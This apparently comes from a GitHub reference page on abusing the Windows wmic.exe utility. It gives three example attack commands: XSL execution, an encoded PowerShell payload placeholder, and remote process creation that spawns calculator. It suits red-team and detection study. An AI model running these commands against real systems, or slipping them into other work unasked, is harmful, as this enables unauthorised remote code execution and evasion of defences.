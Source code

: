 # wmic.exe
## What is it?
*wmic.exe is a command-line utility for interacting with Windows Management Instrumentation (WMI).*

## How to abuse it
- *Executes remote commands and gathers system information.*
- *Can be used to execute payloads without dropping files.*

## Example Attacks
```
wmic os get /FORMAT:"file.xsl"

wmic process call create "powershell -enc <base64_payload>"

wmic /node:"targetPC" process call create "cmd.exe /c calc.exe"
```
*Calculator is spawned by svchost.exe:*

![image](https://github.com/user-attachments/assets/9be8f30e-5e05-42e4-a813-a53fb1fc436a)

